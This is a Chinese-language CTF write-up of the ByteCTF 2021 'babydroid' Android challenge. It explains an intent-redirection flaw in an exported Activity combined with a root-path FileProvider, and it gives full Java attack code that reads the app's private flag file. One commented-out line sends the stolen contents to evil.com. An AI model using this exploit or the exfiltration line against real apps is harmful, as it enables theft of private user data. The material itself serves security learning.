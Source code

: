 ```yaml
---
layout: post
title:  babydroid(ByteCTF2021)
date:   2025-02-09 00:08:01 +0300
image:  2025-02-09-woman.jpg
tags:   [ctf,android,reverse,Pwn]
---
```


接收flag

```assembly
package com.bytectf.babydroid;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;

public class FlagReceiver extends BroadcastReceiver {
    @Override  // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String s = intent.getStringExtra("flag");
        if(s != null) {
            this.writeFile(new File(context.getFilesDir(), "flag"), s);
            Log.e("FlagReceiver", "received flag.");
        }
    }
}
```

FlagReciver是一个广播接收器，经分析是设置flag的，将接收的flag写入文件

但是这里有一点要注意，getFilesDir()是哪个目录呢，这里可以自己写代码进行验证，flag文件存储的目录是/data/data/com.bytectf.babydroid/files/flag。

漏洞所在的Activity

```assembly
package com.bytectf.babydroid;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;

public class Vulnerable extends Activity {
    @Override  // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        this.startActivity(((Intent)this.getIntent().getParcelableExtra("intent")));
    }
}
```

利用这个方法可以使用传入的intent参数直接`startactivity`且没有任何校验，这样就可以以目标app的身份进行一次`startactivity`完成intent的重定向。

Manifest

```assembly
<?xml version="1.0" encoding="UTF-8"?>
<manifest android:compileSdkVersion="30" android:compileSdkVersionCodename="11" android:versionCode="1" android:versionName="1.0" package="com.bytectf.babydroid" platformBuildVersionCode="30" platformBuildVersionName="11" xmlns:android="http://schemas.android.com/apk/res/android">
  <uses-sdk android:minSdkVersion="21" android:targetSdkVersion="30"/>
  <application android:allowBackup="true" android:appComponentFactory="androidx.core.app.CoreComponentFactory" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:roundIcon="@mipmap/ic_launcher_round" android:supportsRtl="true" android:theme="@style/Theme.Babydroid">
    <activity android:exported="true" android:name="com.bytectf.babydroid.MainActivity">
      <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
      </intent-filter>
    </activity>
    <activity android:name="com.bytectf.babydroid.Vulnerable">
      <intent-filter>
        <action android:name="com.bytectf.TEST"/>
      </intent-filter>
    </activity>
    <receiver android:exported="false" android:name="com.bytectf.babydroid.FlagReceiver">
      <intent-filter>
        <action android:name="com.bytectf.SET_FLAG"/>
      </intent-filter>
    </receiver>
    <provider android:authorities="androidx.core.content.FileProvider" android:exported="false" android:grantUriPermissions="true" android:name="androidx.core.content.FileProvider">
      <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
    </provider>
  </application>
</manifest>
```

当Activity中存在intent-filter时默认时可导出的，所以外部应用可以直接打开`Vulnerable`

存在一个非导出的`FileProvider`，可以提供文件的读写和分享能力。其执行的file_paths内容如下：

file_path.xml

```assembly
<?xml version="1.0" encoding="UTF-8"?>
<paths>
  <root-path name="root" path=""/>
</paths>
```

无法直接访问 file provider， 但是可以通过 Intent 重定向来窃取 flag 文件

### FileProvider

​	 Android 7开始不允许以 file:// 的方式通过 Intent 在两个 App 之间分享文件，而是通过 FileProvider 生成 content://Uri 。如果在 Android 7以上的版本继续使用 file:// 的方式分享文件，则系统会直接抛出异常。

​	 FileProvider 是一个特殊的 ContentProvider 子类，如果使用包含 Content URI 的 Intent 共享文件时，需要申请临时的读写权限，这可以通过 Intent.setFlags() 方法实现。

其导出的文件可以从root即根路径开始，都可以用这个FileProvider访问到(前提时目标app有权限访问，可以访问目标app沙箱内部的文件，以此完成沙箱内的文件读写，甚至可以读写内部的可执行文件，dex or so)

所以可以使用**intent重定向**来访问这个非导出的FileProvider内容，使用目标app的权限来读取其沙箱内部的文件。flag文件是通过接收广播后写入到沙箱内部files文件夹中的。

### 攻击

首先使用命令发送广播，创建flag文件：

```assembly
adb shell su root am broadcast -a com.bytectf.SET_FLAG -n com.bytectf.babydroid/.FlagReceiver -e flag 'flag{success!!!}'
```

攻击代码：

```assembly
package com.example.myapplication;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.TextView;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.FileNotFoundException;
import java.io.IOException;
import java.io.InputStream;

public class MainActivity extends AppCompatActivity {
    public TextView tv;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        if(getIntent().getAction().equals("evil")){
            Uri data = getIntent().getData();
            try {
                InputStream inputStream = getContentResolver().openInputStream(data);
                byte[] bytes = new byte[inputStream.available()];
                inputStream.read(bytes);
                String str = new String(bytes);
                Log.e("evil", str);
//                httprequest("http://evil.com/?" + str);
                tv = findViewById(R.id.tv);
                tv.setText(str);

            } catch (FileNotFoundException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }else{
            Intent extra = new Intent("evil");
            extra.setClassName(getPackageName(), MainActivity.class.getName());
            extra.setData(Uri.parse("content://androidx.core.content.FileProvider/root/data/data/com.bytectf.babydroid/files/flag"));
            extra.addFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                    | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
                    | Intent.FLAG_GRANT_READ_URI_PERMISSION
                    | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);

            Intent intent = new Intent();
            intent.setClassName("com.bytectf.babydroid", "com.bytectf.babydroid.Vulnerable");
            intent.setAction("com.bytectf.TEST");
            intent.putExtra("intent", extra);
            startActivity(intent);
        }
    }
}
```

Intent中加入下面这些中**`Grant相关的flags`**

```assembly
public static final int FLAG_GRANT_READ_URI_PERMISSION = 0x00000001;
public static final int FLAG_GRANT_WRITE_URI_PERMISSION = 0x00000002;
public static final int FLAG_GRANT_PERSISTABLE_URI_PERMISSION = 0x00000040
public static final int FLAG_GRANT_PREFIX_URI_PERMISSION = 0x00000080;
```

- FLAG_GRANT_READ_URI_PERMISSION：允许接收者读取 URI 的内容，即读取 URI 的数据，并在权限授予期间保持该权限。

- FLAG_GRANT_WRITE_URI_PERMISSION：允许接收者写入 URI 的内容，即修改 URI 的数据，并在权限授予期间保持该权限。

- FLAG_GRANT_PERSISTABLE_URI_PERMISSION：与 `**FLAG_GRANT_READ_URI_PERMISSION** `或 **`FLAG_GRANT_WRITE_URI_PERMISSION `**一起使用，表示允许接收者在授予许可后持久保存该权限。这意味着即使应用程序被关闭，权限也会保持有效，并且对 URI 的访问仍然是允许的。

- FLAG_GRANT_PREFIX_URI_PERMISSION：允许接收者读取或写入指定 URI 的所有后代 URI，而不必单独为每个 URI 授予权限。

攻击成功

image

参考

https://linkleyping.top/bytectf2021-pre/#babydroid

https://blog.lleavesg.top/article/ByteCTF-2021-BabyDroid#5359052ae6cf4907a20ecbbe64504624

https://mp.weixin.qq.com/s/rxrmtK-Q7RJAbdRVoRNlOA